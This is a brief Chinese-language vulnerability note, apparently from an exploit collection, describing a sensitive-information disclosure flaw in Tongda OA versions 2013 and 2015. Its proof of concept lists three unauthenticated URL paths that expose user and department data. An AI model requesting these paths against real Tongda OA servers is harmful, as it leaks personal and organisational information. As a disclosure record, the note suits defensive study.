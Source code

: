 ## 通达oa ⻚面敏感信息泄露

### 漏洞影响

2013、2015版本

### 复现过程

POC:

```bash
http://0-sec.org/general/get_userinfo.php
http://0-sec.org/general/ipanel/user/query.php
http://0-sec.org/general/info/dept/
```